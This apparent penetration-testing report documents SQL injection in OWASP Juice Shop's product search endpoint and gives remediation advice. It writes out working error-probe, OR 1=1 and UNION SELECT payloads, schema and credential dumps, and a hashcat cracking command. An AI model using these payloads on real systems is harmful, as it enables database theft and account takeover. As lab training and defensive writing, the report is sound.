




# Penetration Testing Report
Assessment Target: OWASP Juice Shop (Training Environment) Vulnerability: SQL Injection — Product Search Endpoint Report Date: June 16, 2026 Severity: Critical

---
## 1. Executive Summary
During security assessment of the web application, a SQL Injection vulnerability was identified in the product search functionality. The vulnerability allows an unauthenticated attacker to manipulate backend database queries, enumerate the entire database schema, extract sensitive data from all tables, and obtain plaintext-equivalent user credentials including administrator accounts. Verbose error messages further accelerated exploitation by exposing internal query structure, reducing the time to full database compromise significantly.

---
## 2. Vulnerability Details

|Field|Details|
|---|---|
|Vulnerability Type|SQL Injection (CWE-89)|
|OWASP Category|A03:2021 – Injection|
|Affected Endpoint|GET /rest/products/search?q=|
|Affected Parameter|q (unsanitized GET parameter)|
|Authentication Required|No|
|CVSS v3.1 Score|9.8 (Critical)|
|CVSS Vector|AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H|

---
## 3. Technical Findings

### 3.1 Finding 1 — Verbose SQL Error Disclosure
Severity: High
Injecting a single quote into the q parameter caused the application to return a 500 error containing the full raw SQL query, database engine type, and internal error message. This information is not intended to be visible to end users and directly enabled precise payload construction in subsequent steps.

Request:
```http
GET /rest/products/search?q=' HTTP/1.1
Host: localhost:3000
```

Response:
```json
{
  "error": {
    "message": "SQLITE_ERROR: incomplete input",
    "code": "SQLITE_ERROR",
    "sql": "SELECT * FROM Products WHERE ((name LIKE '%'..."
  }
}
```



From this response the following was immediately confirmed:
- Backend database engine is SQLite
- Full query structure is exposed including table name, column names, and WHERE clause logic
- User input is injected directly between two % wildcard characters inside a LIKE clause
- The query uses double parenthesis grouping: ((name LIKE '%INPUT%') OR description LIKE '%INPUT%')

---
### 3.2 Finding 2 — Boolean-Based Injection and Soft-Deleted Record Exposure
Severity: High
Using the confirmed query structure, a boolean injection payload was crafted to bypass the deletedAt IS NULL filter and return all product records including those soft-deleted and hidden from the normal application interface.

Request:
```http
GET /rest/products/search?q=' OR 1=1-- HTTP/1.1
Host: localhost:3000
```

Resulting SQL:
```sql
SELECT * FROM Products WHERE ((name LIKE '%' OR 1=1--...
```

Response: 200 OK — returned all 46 product records.
The following 10 products were returned that are not visible through the normal UI:

|Product ID|Name|
|---|---|
|11|Rippertuer Special Juice (flagged unsafe, marked for removal)|
|10|Christmas Super-Surprise-Box (2014 Edition)|
|12|OWASP Juice Shop Sticker (2015/2016 design)|
|27|Juice Shop Artwork|
|28|Global OWASP WASPY Award 2017 Nomination|
|39|Adversary Trading Card (Common)|
|40|Adversary Trading Card (Super Rare)|
|44|20th Anniversary Celebration Ticket|
|46|DSOMM & Juice Shop User Day Ticket|
|31|Sweden Tour 2017 Sticker Sheet|


---
### 3.3 Finding 3 — UNION-Based Injection Confirmed
Severity: Critical
By analyzing the leaked query structure, the correct bracket closing sequence was determined. The payload `%'))` closes the LIKE string, exits both parenthesis groups, and allows a UNION SELECT to be appended cleanly before the rest of the query is commented out.

Working payload (decoded):
```sql
%')) UNION SELECT name,type,3,4,5,6,7,8,9 FROM sqlite_master--
```

Resulting SQL:
```sql
SELECT * FROM Products WHERE ((name LIKE '%%'))
UNION SELECT name,type,3,4,5,6,7,8,9 FROM sqlite_master--...
```
Response: 200 OK — returned standard product records plus injected UNION data appended to the response.



---
### 3.4 Finding 4 — Full Database Schema Enumeration
Severity: Critical
Using the confirmed UNION payload against the sqlite_master system table, the complete database schema was enumerated in a single request. A total of 20 tables and 3 indexes were discovered.

Request:
```http
GET /rest/products/search?q=%25%27%29%29%20UNION%20SELECT%20name%2Ctype%2C3%2C4%2C5%2C6%2C7%2C8%2C9%20FROM%20sqlite_master-- HTTP/1.1
Host: localhost:3000
```

Tables discovered:

|Table|Sensitivity|
|---|---|
|Users|Critical — credentials and roles|
|SecurityAnswers|Critical — account recovery data|
|SecurityQuestions|High — recovery question mapping|
|Cards|High — payment card data|
|Wallets|High — financial balances|
|Addresses|Medium — user PII|
|Complaints|Medium — user messages|
|Memories|Medium — user uploaded content|
|PrivacyRequests|Medium — GDPR/privacy requests|
|BasketItems|Low|
|Baskets|Low|
|Captchas|Low|
|ImageCaptchas|Low|
|Challenges|Low — internal tracker|
|Deliveries|Low|
|Feedbacks|Low|
|Hints|Low|
|Products|Known|
|Quantities|Low|
|Recycles|Low|


---
### 3.5 Finding 5 — Users Table Extraction
Severity: Critical
Following schema enumeration, the Users table was targeted directly. Email addresses, password hashes, and role assignments were extracted in a single request without authentication.

Request:
```http
GET /rest/products/search?q=%25%27%29%29%20UNION%20SELECT%20email%2Cpassword%2Crole%2C4%2C5%2C6%2C7%2C8%2C9%20FROM%20Users-- HTTP/1.1
Host: localhost:3000
```

Decoded payload:
```sql
%')) UNION SELECT email,password,role,4,5,6,7,8,9 FROM Users--
```

Due to the column mapping, extracted data was returned in the following JSON fields:
- id field → email address
- name field → password hash
- description field → user role


The following accounts were identified from the response:

| Email                      | Password Hash (MD5)                   | Role       |
| -------------------------- | ------------------------------------- | ---------- |
| J12934[@]juice-sh[.]op     | 3c2abc04e4xxxxxxxxxxxxxxxxxxxxxxxxxx  | admin      |
| accountant[@]juice-sh[.]op | 963exxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx | accounting |
| admin[@]juice-sh[.]op      | 0192023axxxxxxxxxxxxxxxxxxxxxxxxxxxx  | admin      |
| amy[@]juice-sh[.]op        | 030fxxxxxxxxxxxxxxxxxxxxxxf00de0473   | customer   |

Two administrator accounts were identified. All password hashes are MD5 format and are trivially crackable using hashcat or online lookup services such as CrackStation.

---
### 3.6 Finding 6 — Insecure Password Storage
Severity: High
All user passwords are stored as unsalted MD5 hashes. MD5 is a cryptographically broken algorithm deprecated for password storage purposes. The absence of salting means identical passwords produce identical hashes, enabling efficient rainbow table attacks and bulk cracking.

Cracking approach an attacker would use (attacker machine):
```
hashcat -m 0 hashes.txt rockyou.txt
```

---
## 4. Attack Chain

```
Step 1: Single quote injection
            ↓
Step 2: 500 error exposes full SQL query and SQLite engine
            ↓
Step 3: OR 1=1 payload bypasses deletedAt filter
        — 10 hidden products exposed
            ↓
Step 4: %')) UNION payload confirmed working
            ↓
Step 5: sqlite_master enumeration
        — 20 tables discovered including Users, Cards, Wallets
            ↓
Step 6: UNION SELECT email,password,role FROM Users
        — All user credentials dumped including 2 admin accounts
            ↓
Step 7: MD5 hashes crackable offline
        — Full application compromise achievable
```

---
## 5. Impact Analysis

|Area|Severity|Detail|
|---|---|---|
|Confidentiality|Critical|Entire database accessible to unauthenticated attacker|
|Authentication|Critical|Admin credentials extracted — full application takeover possible|
|Financial|High|Cards and Wallets tables exposed — payment data at risk|
|Integrity|High|Write-capable queries may allow INSERT/UPDATE/DELETE operations|
|Availability|Medium|Destructive queries such as DROP TABLE possible depending on DB user privileges|
|PII Exposure|High|Addresses, complaints, privacy requests, and memories tables accessible|
|Compliance|Critical|Breach of IT Act 2000 (India) and applicable data protection obligations|

---
## 6. Root Cause
Two compounding issues led to full database compromise:

Issue 1 — Unsanitized input: user-supplied values are concatenated directly into SQL query strings without the use of prepared statements or parameterized queries, allowing the query structure to be manipulated.

Issue 2 — Verbose error disclosure: raw SQL errors including full query text, table names, and database engine details are returned to the client in HTTP responses, accelerating attacker reconnaissance from hours to minutes and enabling precise payload construction.

---
## 7. Remediation Guidance
Primary fix — Parameterized queries (mandatory):
```javascript
// Vulnerable
db.query(`SELECT * FROM Products WHERE name LIKE '%${userInput}%'`);

// Secure
db.query('SELECT * FROM Products WHERE name LIKE ?', [`%${userInput}%`]);
```

Secondary fix — Secure password hashing:
```javascript
// Vulnerable
const hash = md5(password);

// Secure
const hash = await bcrypt.hash(password, 12);
```

Additional controls:

|Control|Action|
|---|---|
|Error handling|Suppress all verbose DB errors in production; log server-side only with correlation IDs|
|Input validation|Whitelist alphanumeric and common punctuation; reject SQL metacharacters|
|Least privilege|Database user should have SELECT only on required tables — no DROP, INSERT across sensitive tables|
|WAF rules|Block patterns: single quotes, double dash, UNION SELECT, OR 1=1, sqlite_master|
|SAST|Integrate Semgrep into CI/CD pipeline to catch string concatenation in query construction|
|DAST|Run OWASP ZAP or Burp Suite Pro scans on every release build|

---
## 8. Verification Testing
After remediation, confirm the following tests all pass:

|Test|Payload|Expected Result|
|---|---|---|
|Error suppression|q='|Generic error message, no SQL or stack trace exposed|
|Boolean bypass|q=' OR 1=1--|Normal results only, no deleted products|
|UNION injection|q=%')) UNION SELECT ...--|Empty response or request blocked|
|Schema enumeration|q=%')) UNION SELECT ... FROM sqlite_master--|No data returned|
|Credential extraction|q=%')) UNION SELECT email,password FROM Users--|No data returned|
|Password storage|Register new account, inspect DB|Hash should be bcrypt format, not MD5|

---
## 9. References

- OWASP Top 10 A03:2021 — Injection: https://owasp.org/Top10/A03_2021-Injection/
- CWE-89: Improper Neutralization of Special Elements in SQL Commands
- CWE-209: Generation of Error Message Containing Sensitive Information
- CWE-916: Use of Password Hash With Insufficient Computational Effort
- CVSS v3.1 Calculator: https://www.first.org/cvss/calculator/3.1

---
_This report was produced as part of a controlled security training exercise on OWASP Juice Shop. All testing was performed in an isolated lab environment with no real user data involved._